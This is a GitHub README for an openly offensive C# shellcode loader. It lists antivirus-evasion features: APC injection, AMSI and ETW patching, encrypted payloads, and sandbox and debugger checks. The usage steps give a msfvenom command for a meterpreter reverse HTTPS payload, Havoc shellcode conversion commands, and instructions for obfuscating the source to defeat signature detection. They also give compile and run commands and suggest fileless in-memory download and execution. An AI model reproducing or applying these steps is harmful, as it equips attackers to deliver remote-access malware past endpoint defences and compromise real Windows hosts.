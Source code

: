 ### C# ShellCode Loader 3
--------------------------------------
Shellcode loader (written in C#) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Implements shellcode injection using Asynchronous Procedure Call (APC) and the NtTestAlert function
  - AMSI and ETW bypass (patching technique)
  - Shellcode encryption (AES-256 / CBC mode)
  - Basic sandbox detection & evasion
    - Terminates execution if the host Windows machine is not joined to a specific domain
    - Terminates execution if a debugger is detected (basic anti-debugging check)
  - Shellcode handling => the encrypted shellcode is Base64-encoded and loaded from a local file
  - Supports shellcodes generated by multiple Command-and-Control (C2) frameworks such as Metasploit and Havoc
    
#### USAGE
  - STEP 1. Generate a Csharp shellcode with your favorite C2 framework or generate a "raw" shellcode and then convert it to the Csharp format.
```
Examples
[*] METASPLOIT C2 Framework 
    $ msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f csharp -o stageless-shellcode.bin

[*] HAVOC C2 Framework 
    Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64; Indirect Syscall enabled; no sleep obfuscation; amsi/etw patching technique: hardware breakpoints)
    Then convert the raw shellcode to the Csharp format:
    > Manual option:
      @Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2
      @Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3
   > Or use a tool like "SUPERNOVA" to convert it (SuperNova is a shellcode encryptor & obfuscator tool - https://github.com/nickvourd/Supernova)
``` 

  - STEP 2. Encrypt the shellcode using AES-256 encryption in CBC mode, then Base64-encode the encrypted output and save it to a file.
 ```
Examples
[*] AES encryption code - https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab4/3.cs
[*] Base64 encoding
    byte[] EncryptedShellcodeBytes = { ... };
    string Base64EncodedData = Convert.ToBase64String(EncryptedShellcodeBytes);
    Console.WriteLine(Base64EncodedData);
```
  - STEP 3. OPSEC requirements - Manually obfuscate the C# shellcode loader file
  	- Rename the namespace, classes, methods, and variables.
  	- Remove all existing comments and insert fake ones.
    - Remove all console output messages (i.e., Console.WriteLine("text")).
  	- Modify the code structure or logic slightly if needed to evade signature-based detection.

  - STEP 4. Compile the C# shellcode loader 
```  
[*] Example with "Developer PowerShell for VS 2022" - Microsoft (R) Visual C# Compiler
    Command: csc /t:exe /out:C:\path\Loader.exe C:\path\CsharpShellCodeLoader.cs
``` 
  - STEP 5. Optional Actions
  	- You may compress and obfuscate the shellcode loader executable using a packer such as ConfuserEx. However, this step is not strictly necessary to bypass most AV solutions if you performed sufficient manual obfuscation in Step 3.
  	- Alternatively, you may choose to remotely download and execute the C# binary in memory using PowerShell and reflection-based code loading. This approach avoids writing the binary to disk, enhancing stealth and reducing forensic traces.
  - STEP 6. Execution
```
[*] Command: loader.exe <domain name> <C:\filepath\base64-shellcode-file.txt> <AES key>
[*] Command: loader.exe lab.local C:\temp\base64-shellcode.txt superkey
    Note:
    > Argument 1 = The domain name of the target Windows machine. Used for sandbox detection/evasion by verifying domain membership.
    > Argument 2 = The file path to the AES-256 encrypted shellcode, which must be Base64-encoded (i.e., C:\path\file.txt or .\path\file.txt).
    > Argument 3 = The AES passkey used for encryption and decryption.
``` 
#### LICENSE
  - GNU General Public License v3.0
